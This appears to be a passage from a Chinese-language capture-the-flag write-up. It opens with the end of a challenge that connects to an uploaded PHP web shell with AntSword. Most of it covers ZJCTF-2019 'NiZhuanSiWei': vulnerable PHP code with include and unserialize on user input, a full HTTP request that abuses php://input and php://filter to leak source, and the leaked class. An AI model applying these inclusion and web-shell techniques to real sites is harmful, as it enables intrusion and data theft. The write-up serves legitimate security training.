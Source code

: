 访问/uploads/d99081fe929b750e0557f85e6499103f/index.php，蚁剑连接

**resource**
https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html

## ZJCTF-2019-NiZhuanSiWei

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

先读取useless.php源码

```
POST /?text=php://input&file=php://filter/read=convert.base64-encode/resource=useless.php HTTP/1.1
Host: a5aaf467-b6af-4778-975a-015d32ec294a.node3.buuoj.cn
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Cookie: UM_distinctid=178e3bcc14b20-0818dc9f78314e-5771133-190140-178e3bcc14cc71
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

welcome to the zjctf
```

useless
```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```
